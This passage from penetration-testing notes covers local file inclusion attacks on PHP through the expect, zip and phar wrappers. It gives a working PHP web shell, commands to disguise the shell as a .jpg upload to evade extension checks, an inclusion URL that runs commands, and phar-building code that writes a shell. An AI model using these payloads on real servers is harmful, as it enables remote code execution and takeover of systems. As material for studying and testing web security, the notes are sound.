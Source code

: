 ### Expect Wrapper

Expect allows us to run commands directly through URL streams. It doesn't need to run as a web shell necessarily, though the end result to an attacker will be pretty much the same.

Expect is NOT installed by default so we need to confirm if has been manually installed and enabled on the backend. We can do this by reading the `php.ini` file as outlined in the data wrapper section above and grepping for the keyword `expect`. Should get something like `extension=expect`.

If enabled, obtaining RCE through file inclusion is as easy as submitting the payload `expect://<COMMAND>` in the vulnerable inclusion parameter.

### Zip Wrapper

Good to exploit if we can upload a zip, but need to check if the `zip://` wrapper is allowed in the config.

Sometimes, even if zip uploads are disallowed, we can try to hide it as an innocent-looking file type, but more robust validations will pick up on this and reject the upload. Therefore, we have a better chance of exploitation if the upload functionality explicitly allows zip uploads.

Create the malicious zip (in this case as a JPEG to bypass a basic file-extension validation mechanism):

```
link@kali:~$ echo '<?php system($_GET["cmd"]) ?>' > shell.php
link@kali:~$ zip shell.jpg shell.php
```

Upload the zip and use the `#` character to specify the file to execute (shell.php) --> we'll need to URL encode this hash character.

Include the file in the LFI vulnerability with `zip://./required-directory/if-needed/shell.jpg%23shell.php&cmd=whoami`

### Phar Wrapper

Similar to above. Create a php archive (phar), e.g. with the below code in shell.php:

```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This will, when called, write a webshell to `shell.txt` sub-file which can be interacted with.

E.g.

```
link@kali:~$ php --define phar.readonly=0 shell.php

// Optionally, rename it to something that can actually be uploaded to the web app
link@kali:~$ mv shell.phar shell.jpg
```
